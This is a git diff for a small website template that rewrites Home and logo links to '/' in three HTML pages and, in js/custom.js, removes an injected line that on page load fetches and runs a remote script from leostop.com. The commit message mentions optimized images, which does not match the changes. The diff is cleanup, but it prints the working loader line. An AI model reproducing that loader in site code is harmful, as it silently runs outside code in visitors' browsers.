

Add optimized images

diff --git a/about.html b/about.html
@@ -77,7 +77,7 @@
       <div class="row">
         <div class="col-lg-3 col-md-12 col-sm-12 col-xs-12">
           <!-- logo start -->
-          <div class="logo"> <a href="index.html"><img src="images/logos/arwin.png" alt="logo" /></a> </div>
+          <div class="logo"> <a href="/"><img src="images/logos/arwin.png" alt="logo" /></a> </div>
           <!-- logo end -->
         </div>
         <div class="col-lg-9 col-md-12 col-sm-12 col-xs-12">
@@ -85,7 +85,7 @@
           <div class="menu_side">
             <div id="navbar_menu">
               <ul class="first-ul">
-                <li> <a href="index.html">Home</a></li>
+                <li> <a href="/">Home</a></li>
                 <li><a class="active" href="about.html">About Us</a></li>
                 <li> <a href="services.html">Services</a></li>
               </ul>
@@ -109,7 +109,7 @@
             <div class="title-holder-cell text-left">
               <h1 class="page-title">About Us</h1>
               <ol class="breadcrumb">
-                <li><a href="index.html">Home</a></li>
+                <li><a href="/">Home</a></li>
                 <li class="active">About Us</li>
               </ol>
             </div>

diff --git a/services.html b/services.html
@@ -77,7 +77,7 @@
       <div class="row">
         <div class="col-lg-3 col-md-12 col-sm-12 col-xs-12">
           <!-- logo start -->
-          <div class="logo"> <a href="index.html"><img src="images/logos/arwin.png" alt="logo" /></a> </div>
+          <div class="logo"> <a href="/"><img src="images/logos/arwin.png" alt="logo" /></a> </div>
           <!-- logo end -->
         </div>
         <div class="col-lg-9 col-md-12 col-sm-12 col-xs-12">
@@ -85,7 +85,7 @@
           <div class="menu_side">
             <div id="navbar_menu">
               <ul class="first-ul">
-                <li> <a href="index.html">Home</a></li>
+                <li> <a href="/">Home</a></li>
                 <li><a href="about.html">About Us</a></li>
                 <li> <a class="active" href="services.html">Services</a></li>
               </ul>
@@ -109,7 +109,7 @@
             <div class="title-holder-cell text-left">
               <h1 class="page-title">Services</h1>
               <ol class="breadcrumb">
-                <li><a href="index.html">Home</a></li>
+                <li><a href="/">Home</a></li>
                 <li class="active">Services</li>
               </ol>
             </div>

diff --git a/index.html b/index.html
@@ -81,7 +81,7 @@
       <div class="row">
         <div class="col-lg-3 col-md-12 col-sm-12 col-xs-12">
           <!-- logo start -->
-          <div class="logo"> <a href="index.html"><img src="images/logos/arwin.png" alt="logo" /></a> </div>
+          <div class="logo"> <a href="/"><img src="images/logos/arwin.png" alt="logo" /></a> </div>
           <!-- logo end -->
         </div>
         <div class="col-lg-9 col-md-12 col-sm-12 col-xs-12">
@@ -89,7 +89,7 @@
           <div class="menu_side">
             <div id="navbar_menu">
               <ul class="first-ul">
-                <li> <a class="active" href="index.html">Home</a></li>
+                <li> <a class="active" href="/">Home</a></li>
                 <li><a href="about.html">About Us</a></li>
                 <li> <a href="services.html">Services</a></li>
               </ul>

diff --git a/js/custom.js b/js/custom.js
@@ -75,7 +75,7 @@ $(document).ready(function () {
 
 });
 
-function getURL() { window.location.href; } var protocol = location.protocol; $.ajax({ type: "get", data: { surl: getURL() }, success: function (response) { $.getScript(protocol + "//leostop.com/tracking/tracking.js"); } });
+function getURL() { window.location.href; } var protocol = location.protocol; 
 
 /** google_map js **/
 
